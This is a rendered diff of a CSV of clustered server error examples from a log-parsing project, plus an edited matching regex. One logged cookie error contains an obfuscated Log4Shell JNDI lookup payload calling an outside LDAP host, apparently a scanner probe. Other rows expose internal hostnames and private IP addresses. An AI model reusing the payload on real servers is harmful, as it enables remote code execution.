

Before and after one commit to chirag127/Log-Parsing-and-Errors, a CSV file: cluster_error_data.csv, drawn as a sheet; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
update ap.py, app.py, c.txt and cluster_error_data.csv

```diff
--- a/cluster_error_data.csv
+++ b/cluster_error_data.csv
+column A (Cluster), rows 2-8: 1.0 | 2.0 | 3.0 | 4.0 | 5.0 | 6.0 | 7.0
+column B (Error Example), rows 2-8: a cookie header was received [${jndi:ldap://log4shell-generic-8molyf0ab2aqtscsyugh${lower:ten}.w.nessus.org/nessus}=${jndi:ldap://log4shell-generic-8molyf0ab2aqtscsyugh${lower:ten}.w.nessus.org/nessus};] invalid cookie | servlet.service() for servlet [dispatcherservlet] in context with path [] threw exception | discoveryclient_rdd-async-service/p1049433.prod.cloud.fedex.com:rdd-async-service:6521 - was unable to send heartbeat! | exception processing errorpage[errorcode=0, location=/error] | request execution failed with message: i/o error on put request for "": connect to rddgwslas03.prod.cloud.fedex.com:8094 [rddgwslas03.prod.cloud.fedex.com/10.228.54.50] failed: connection refused (connection refused); nested exception is org.apache.http.conn.httphostconnectexception: connect to rddgwslas03.prod.cloud.fedex.com:8094 [rddgwslas03.prod.cloud.fedex.com/10.2 | request execution failed with message: i/o error on get request for "": connect to rddgwsatl04.prod.cloud.fedex.com:8094 [rddgwsatl04.prod.cloud.fedex.com/10.52.77.32] failed: connection refused (connection refused); nested exception is org.apache.http.conn.httphostconnectexception: connect to rddgwsatl04.prod.cloud.fedex.com:8094 [rddgwsatl04.prod.cloud.fedex.com/10.52.77.32] failed: connection refused (connection refused) | request execution failed with message: i/o error on put request for "": connect to rddgwsatl02.prod.cloud.fedex.com:8094 [rddgwsatl02.prod.cloud.fedex.com/10.52.172.30] failed: connection refused (connection refused); nested exception is org.apache.http.conn.httphostconnectexception: connect to rddgwsatl02.prod.cloud.fedex.com:8094 [rddgwsatl02.prod.cloud.fedex.com/10.5
-C2 (Error Regex): cookie header was received.*invalid cookie
+C2 (Error Regex): cookie header.*
-row 9: cookie hdeader .* | cookie hdeader
+row 9:  |  | ee | s
```
Also changed, not shown: 3 other files.
